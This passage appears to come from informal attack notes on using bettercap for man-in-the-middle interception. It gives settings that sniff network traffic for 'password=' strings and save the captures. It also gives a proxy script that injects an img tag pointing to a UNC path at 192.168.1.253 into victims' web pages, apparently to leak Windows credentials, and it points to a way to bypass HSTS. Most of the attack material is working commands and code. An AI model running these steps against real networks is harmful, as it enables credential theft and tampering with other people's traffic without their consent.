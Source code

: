**OBS: With this commands, the bettercap make a new certificate file and then the valid certificate from the site is substituted by the bettercap's certificate. So, if the user is accessing a site tha is using HSTS, we have a problem... hahahahaah shit! See mitmf to view how to bypass (with problems in chrome and firefox new versions)**

## Password Sniffing

For the purpose of example we’ll check some requests from the localhost. Start bettercap (maybe in –debug mode) and set:

	» set net.sniff.filter 'not arp' (default=not arp)
	» set net.sniff.local true
	» set net.sniff.regexp '.*password=.+'
	» set net.sniff.verbose 'true'

You could setup an output file:

	» set net.sniff.output ‘passwords.pcap’

so you can inspect packet dump later on with some tool like WireShark. Alternatively you can use some from the terminal:

	$ tcpdump -qns 0 -X -r dump.pcap
	$ tcpdump -qns 0 -A -r dump.pcap
	$ tshark -r dump.pcap
	$ tcpick -C -yP -r tcp_dump.pcap

## manipulating http traffic

set http.proxy.script /root/img-inject.js
http.proxy on (iptables is used here to make  a redirection to a port like a proxy)
img-inject.js:

	function onLoad() {
		log( "BeefInject loaded." );
		log("targets: " + env['arp.spoof.targets']);
	}
	//function onRequest(req, res) {
	//	if(res.AcceptEncoding.indexOf('Accept-Encoding');
	//}

	function onResponse(req, res) {
		if( res.ContentType.indexOf('text/html') == 0 ){
    var body = res.ReadBody();
    if( body.indexOf('</head>') != -1 ) {
    log( "BeefInject loaded." );
    log("targets: " + env['arp.spoof.targets']);
    res.Body = body.replace( 
    '</head>', 
	   '</head><img src="\\\\192.168.1.253">' 
      ); 
    }
    }
	}
